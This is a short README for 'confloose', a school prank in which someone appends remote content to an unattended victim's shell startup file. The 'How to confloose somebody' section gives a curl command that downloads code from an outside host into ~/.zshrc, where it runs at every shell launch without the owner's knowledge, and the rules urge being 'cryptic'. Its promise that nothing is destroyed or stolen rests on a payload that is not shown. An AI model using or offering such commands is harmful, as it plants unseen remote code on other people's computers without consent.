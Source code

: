 Confloose
=========

A *confloose* (or "loose configuration") is a collection of the worst a startup
script can do for you.

There has been a prank going on for quite some time in my IT school --
when someone leaves his computer unattended, and without locking it, one would
append a script to the victim's shell startup file.

The deal is to put really annoying things right off the bat while not harming
the computer and the data on it -- this prank is meant as a lesson (you should
not leave your computer unattended in public space), and a fun challenge (at
least for the one watching from afar)

How to confloose somebody :
---------------------------

``curl -L confloo.se/hard >> ~/.the_shell_rc``

So, as an example, confloosing someone using zsh :

``curl -L confloo.se/hard >> ~/.zshrc``

Rules :
-------
1. Don't destroy anything.
2. Don't steal anything.
3. Try to be cryptic.
4. Be fun and creative.
